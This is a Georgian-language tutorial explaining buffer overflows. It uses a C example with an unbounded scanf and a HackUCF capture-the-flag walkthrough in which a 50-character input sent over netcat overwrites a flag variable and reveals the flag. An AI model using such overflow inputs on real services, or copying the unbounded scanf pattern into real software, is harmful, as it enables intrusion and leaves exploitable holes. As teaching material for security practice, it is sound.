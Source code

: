 ```yaml
---
title: "Buffer Overflow ქართულად"
date: 2024-12-23 00:00:00 -0800
categories: Explanations ქართულად
tags: ახსნა ქართულად tutorials explanaton
---
```


# რა არის Buffer?

Buffer არის ინფორმაციის შენახვის ადგილი კომპიუტერის მეხსიერებაში, რომელიც გამოიყენება მონაცემთა დამუშავებისთვის და მონაცემთა შესანახად.

მაგალითად ავიღოთ კოდი:

```c
#include <stdio.h>

int main() {
    char name[5];
    
    printf("სახელი: ");
    scanf("%s", name);
    
    printf("გამარჯობა, %s\n", name); 
    return 0;
}
```

ამ შემთხვევაში, Buffer არის name, რომელელშიც შეგვიძლია შევინახოთ მაქსიმუმ 5 სიმბოლო.

# რა არის Buffer Overflow?

Buffer Overflow არის შეხწევადობა რომელიც მაქსიმუმ ინფორმაციაზე მეტის შეტანის შემდეგ ხდება. მაგალითად შეგვიძლია ავიღოთ სათლი და დავიწყოთ მაში წყლის ჩასხმა. თუ ლიმიტზე მეტ წყალს ჩავასხავთ, წყალლი სათლიდან გადმოსვლას დაიწყებს.

ამ შემთხვევაში, ჩვენ თუ შევიტანთ ლიმიტზე მეტ ინფორმაციას, ჩვენი პროგრამა ვერ იმუშავებს ისე როგორც უნდა ემუშავა.

პროგრამამ უნდა იმუშავოს ასე:

```sh
jstr$ gcc main.c
jstr$ ./a.out
სახელი: test1
გამარჯობა, test1
```

თუ შევიტანთ 5ზე მეტ სიმბოლოს, გვექნება ასეთი შედეგი:

```
jstr$ ./a.out
სახელი: Jester
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

`stack smashing detected` ნიშნავს რომ კომპაილერმა (ამ შემთხვევაში gcc-მ) შეამჩნია რომ Buffer Overflow მოხდა, და კოდის ტერმინაცია მოახდინა.

# Buffer Overflow-ს გამოყენება

მაგალითად გამოვიყენებთ HackUCF-ის ამოცანას:

```
Pwn that buffer!

nc ctf.hackucf.org 9000
```

მიბმულია ორი ფაილი, bof1 და bof1.c

გავუშვათ Net Cat:

```
jstr$ nc ctf.hackucf,org 9000

test
Nope!
```

`test` ის შეტანის დროს პასუხად გამოიტანა `Nope!`. მოდით შევხედოთ C ფაილს.

```c
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```

რადგანაც `buf`-ს აქვს 32 სიმბოლოს ლიმიტი, ჩვენ უნდა შევიტანოთ 32 სიმბოლოზე მეტი.

```
jstr$ python3
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> print('A'* 50)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

(Python-ს იმიტომ ვიყენებ რომ დათვლა მეზარება T_T )

კიდევ ერთხელ გამოვიყენოთ NetCat :
```
jstr$ nc ctf.hackucf.org 9000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{my_first_buffer_overflow!}
```


